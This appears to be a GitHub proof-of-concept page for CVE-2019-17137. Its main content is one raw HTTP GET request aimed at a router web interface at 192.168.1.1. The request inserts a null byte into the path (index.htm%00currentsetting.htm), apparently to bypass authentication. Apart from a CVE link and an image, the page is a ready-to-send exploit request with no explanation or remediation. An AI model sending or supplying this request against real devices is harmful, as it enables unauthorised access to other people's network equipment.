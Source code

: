# CVE-2019-17137
Info CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17137

### POC

```

GET /index.htm%00currentsetting.htm HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close

```


![CVE](https://i.imgur.com/q9e3MMz.png)
